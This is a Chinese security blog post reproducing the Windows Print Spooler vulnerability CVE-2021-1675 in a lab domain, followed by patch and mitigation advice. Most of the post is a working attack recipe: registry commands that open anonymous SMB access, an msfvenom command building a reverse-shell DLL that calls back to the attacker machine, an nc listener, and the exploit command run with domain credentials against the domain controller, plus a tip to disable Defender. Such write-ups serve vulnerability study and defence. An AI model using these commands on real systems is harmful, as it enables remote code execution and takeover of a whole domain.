 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Fp6j3KKosn45D-VRSDJ16w)

**上方蓝色字体关注我们，一起学安全！**

**作者：shiyi****@Timeline Sec  
**

**本文字数：1191**

**阅读时长：3～4min**

**声明：仅供学习参考使用，请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

Windows Print Spooler 是 Windows 的打印机后台处理程序，广泛的应用于各种内网中。

**0x02 漏洞概述**  

  

攻击者可以通过该漏洞绕过 PfcAddPrinterDriver 的安全验证，并在打印服务器中安装恶意的驱动程序，若攻击者所控制的用户在域中，则攻击者可以连接到 DC 中的 Spooler 服务，并利用该漏洞在 DC 中安装恶意的驱动程序，完整的控制整个域环境。

**0x03 影响版本**  

  

```
* Windows Server 2019 (Server Core installation)  
* Windows Server 2012 R2 (Server Core installation)
* Windows Server 2012 R2
* Windows Server 2012 (Server Core installation)
* Windows Server 2012
* Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
* Windows RT 8.1
* Windows 8.1 for x64-based systems
* Windows 8.1 for 32-bit systems
* Windows 7 for x64-based Systems Service Pack 1
* Windows 7 for 32-bit Systems Service Pack 1
* Windows 10 Version 1607 for x64-based Systems
* Windows 10 Version 1607 for 32-bit Systems
```

**0x04 环境搭建**  

  

目标域：  

Windows Server 2019 域环境 (test.com) IP：192.168.3.3   攻击机：Kali-2021 IP：192.168.3.55   普通域账户密码：  
win10/windows10>? impact 包：  
https://github.com/cube0x0/impacket

**Linux 配置 smb 匿名访问：**

1、修改 / etc/samba/smb.conf 文件

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445
[smb]
    comment = Samba
    path = /usr/share2    
    guest ok = yes
    read only = no
    browsable = yes
```

_PS：_

_对于 [global] 只需要把 idmap config * : backend = tdb 前面的分号删掉，然后再添加一条 smb ports = 445  即可，其他项都是默认的，最后把整个 [smb]  添加上去_

2、重启 samba

```
service smbd restart
```

3、创建共享文件夹

```
mkdir /usr/share2
```

**Windows 配置匿名访问：**  

```
mkdir C:\share
icacls C:\share\ /T /grant "ANONYMOUS LOGON":r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'（powershell下运行不适合win7）
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
```

**0x05 漏洞复现  
**

  

### 1、安装 impact 包

```
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

### 2、Kali 生成恶意 dll 文件  

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.3.55 LPORT=4444 -f dll -o /usr/share2/shell.dll
```

### 3、msf 或者 nc 开启监听

```
msf 和 nc开启监听都可以 
nc -lnvp 4444
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgAjfOAEe7VawUPczvj1soYJN4aUDJyC4Y7lod7tHn1NWUibfyECddyZePiayMEkYl7HAic8Kf5rFUbQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgAjfOAEe7VawUPczvj1soYFDRODuLvFlrxdFt7rWiaAvBUU3icp6a9dEdr8oY1ibo8e9CYGbDPJr0Ew/640?wx_fmt=png)

### 4、执行 exp  

```
exp地址：https://github.com/cube0x0/CVE-2021-1675
python3 CVE-2021-1675.py test.com/win10:"windows10>?"@192.168.3.3 '\\192.168.3.55\smb\shell.dll'
```

  
虽然报错了 但是已经收到了 shell

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgAjfOAEe7VawUPczvj1soYCORXuJaDgGA1eQaMR25QQpSdvCQHa8orXeQB3Is0r3hgKv3assjVXQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgAjfOAEe7VawUPczvj1soYnjwcyK4XzWKgqiadEzSVm65YUtjVutfibSMicwcic8nwBCcdPibP82OU1lQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgAjfOAEe7VawUPczvj1soYJFK7DOiaaJE5ZenRZYCujWagzcd5XXLHEZ7zuibEYeUPbKTPU0cPpJjw/640?wx_fmt=png)  

**0x06 修复建议  
**

  

1. 官方建议：

目前官方已发布漏洞修复补丁，建议受影响用户尽快更新漏洞补丁。

```
https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1675
```

2. 临时防护措施：  

若相关用户暂时无法进行补丁更新，可通过禁用 Print Spooler 服务来进行缓解：

1）在服务应用（services.msc）中找到 Print Spooler 服务。

2）停止运行服务，同时将 “启动类型” 修改为“禁用”。

**** 坑点 ****  

---------------

1、windows defender 关闭

defender 没关闭之前，exp 一直失败，然后就尝试关闭 defender，就可以成功（dll 未免杀的原因）。

2、windows 共享利用失败

在 windows 上测试开启共享之后，能够在域控上匿名访问到共享文件，但是 exp 一直失败。  

```
参考链接：
```

https://github.com/cube0x0/CVE-2021-1675

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章**

Timeline Sec 团队  

安全路上，与你并肩前行